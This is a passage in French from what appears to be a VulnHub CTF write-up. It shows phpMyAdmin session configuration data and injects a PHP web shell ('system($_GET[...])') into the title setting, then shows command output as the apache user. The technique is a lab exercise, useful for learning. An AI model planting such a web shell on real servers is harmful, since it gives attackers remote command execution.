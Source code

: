 ![VulnHub Presidentials CTF phpMyAdmin title configuration](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/presidentials_pma_settings.png)

Le texte est bien présent :  

```plain
--- snip ---
userconfig|a:2:{s:2:"db";a:3:{s:12:"Console/Mode";s:8:"collapse";s:12:"TitleDefault";s:12:"<thisisdope>";s:14:"Server/hide_db";s:0:"";}s:2:"ts";i:1640526301;}
--- snip ---
```

Maintenant il s'agit de ne pas se rater. Je modifie cette valeur pour la ligne suivante :  

```php
dv_start<?php system($_GET[chr(99)]); ?>dv_end
```

Ce qui me permettra aussi de retrouver facilement mon output.  

Cette fois ça fonctionne bien si on passe *id; uname -a* au paramètre *c* :  

```plain
dv_startuid=48(apache) gid=48(apache) groups=48(apache)
Linux votenow.local 3.10.0-1127.13.1.el7.x86_64 #1 SMP Tue Jun 23 15:46:38 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
dv_end
```
